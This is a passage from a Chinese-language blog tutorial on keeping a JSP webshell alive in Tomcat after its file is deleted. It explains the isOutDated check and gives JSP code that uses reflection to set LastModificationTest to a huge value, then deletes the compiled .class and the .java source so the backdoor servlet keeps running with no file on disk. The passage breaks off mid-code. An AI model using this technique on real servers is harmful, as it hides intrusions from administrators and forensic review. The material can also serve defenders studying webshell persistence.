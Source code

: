 那么，真正实现代码逻辑功能的 servlet 已经在 jsps 中安安静静躺好了，要想实现删除掉 Jsp 文件，但仍然让 servlet” 高枕无忧”，就要令 isOutDataed 的第一个 If 逻辑直接返回 false（这个 If 逻辑比较容易处理）

[![](https://p2.ssl.qhimg.com/t01398c638be086c36d.png)](https://p2.ssl.qhimg.com/t01398c638be086c36d.png)

来看，this.jsw 等同于 JspServletWrapper，前两个条件明显成立，ModificationTestInterval 的值默认为 4，jsw 是对我们请求响应的 JspServlet。

后面判断 JspServletWrapper 的 LastModificationTest 加上 4*1000 是否大于系统当前时间，成立则返回 false。

我一看 this.jsw.getLastModificationTest()，啪的一下，很快嗷，有没有朋友已经反应过来了，利用 Java 反射机制动态修改实例中的运行数据，将 LastModificationTest 更改为一个足够大的值，使得这个条件永成立，就可以使得 Tomcat 认为我们的 JSP 文件至始至终不曾更变。

这里是 long 型，可能有的朋友一瞅，阿我直接整个 long 型最大值，使得这个条件永真。留意还有额外的变量要添加，超过最大值会得到一个负数，令这个条件永假。

四、编写代码
------

按照惯例，导入包一览：

```
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.mapper.MappingData" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.jasper.compiler.JspRuntimeContext" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="java.util.concurrent.ConcurrentHashMap" %>
<%@ page import="org.apache.jasper.servlet.JspServletWrapper" %>
<%@ page import="org.apache.jasper.JspCompilationContext" %>
<%@ page import="java.io.File" %>
```

无尽的反射, request 里的 MappingData 东西是真的全, 下列反射的类不知道为什么的要这么做的可以看看上述关于 jsps 的图：

```
<%
    Field requestF = request.getClass().getDeclaredField("request");
    requestF.setAccessible(true);
    Request req = (Request) requestF.get(request);

    MappingData mappingData = req.getMappingData();
    Field wrapperF = mappingData.getClass().getDeclaredField("wrapper");
    wrapperF.setAccessible(true);
    Wrapper wrapper = (Wrapper) wrapperF.get(mappingData);

    Field instanceF = wrapper.getClass().getDeclaredField("instance");
    instanceF.setAccessible(true);
    Servlet jspServlet = (Servlet) instanceF.get(wrapper);

    Field rctxt = jspServlet.getClass().getDeclaredField("rctxt");
    rctxt.setAccessible(true);
    JspRuntimeContext jspRuntimeContext = (JspRuntimeContext) rctxt.get(jspServlet);

    Field jspsF = jspRuntimeContext.getClass().getDeclaredField("jsps");
    jspsF.setAccessible(true);
    ConcurrentHashMap jsps = (ConcurrentHashMap) jspsF.get(jspRuntimeContext);

    JspServletWrapper jsw = (JspServletWrapper)jsps.get(request.getServletPath());
    jsw.setLastModificationTest(8223372036854775807L);

JspCompilationContext ctxt = jsw.getJspEngineContext();
    File targetFile;
    targetFile = new File(ctxt.getClassFileName());//删掉jsp的.class
    targetFile.delete();
    targetFile = new File(ctxt.getServletJavaFileName());//删掉jsp自身
    targetFile.delete();
```